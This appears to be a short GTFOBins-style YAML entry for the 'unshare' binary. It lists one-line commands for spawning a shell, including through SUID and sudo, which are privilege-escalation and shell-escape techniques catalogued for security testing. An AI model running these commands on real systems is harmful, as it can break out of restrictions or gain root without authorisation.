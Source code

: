 functions:
  shell:
    - code: unshare /bin/sh
  suid:
    - code: ./unshare -r /bin/sh
  sudo:
    - code: sudo unshare /bin/sh
---
